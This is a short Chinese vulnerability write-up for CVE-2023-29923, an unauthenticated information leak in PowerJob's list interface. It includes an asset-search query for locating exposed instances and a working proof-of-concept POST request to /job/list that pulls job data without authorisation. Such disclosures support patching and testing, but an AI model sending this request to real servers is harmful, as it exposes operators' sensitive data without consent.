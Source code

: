 # PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据。

## 漏洞影响

```
PowerJob
```

## 网络测绘

```
app="PowerJob"
```

## 漏洞复现

登陆页面

![image-20230424163841725](images/image-20230424163841725.png)

验证POC

```
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![image-20230424163855220](images/image-20230424163855220.png)
